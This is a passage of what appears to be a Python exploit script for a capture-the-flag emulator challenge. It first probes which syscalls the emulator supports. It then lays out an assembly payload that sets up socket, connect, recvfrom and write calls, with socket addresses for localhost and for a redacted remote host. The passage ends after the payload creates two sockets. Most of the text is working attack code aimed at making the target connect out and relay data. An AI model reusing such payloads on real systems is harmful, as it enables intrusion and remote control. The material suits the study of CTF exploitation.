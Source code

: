 ```python
    add syscall_num step syscall_num
    sub 0 loop_size 0
    """
    supported = []
    d = assemble_and_send(asm)
    for i in range(0, 60):
        if 'Unimplemented syscall {}\n'.format(i) not in d:
            supported.append(i)
    print('Supported syscalls: {}'.format(supported))

exploit = """start
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
sock_addr_local: 0xae080002 00x0100007f 0 

connect_remote_args: 4 sock_addr_remote 16
sock_addr_remote: 0xae080002 [REDACTED] 0 

write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output
```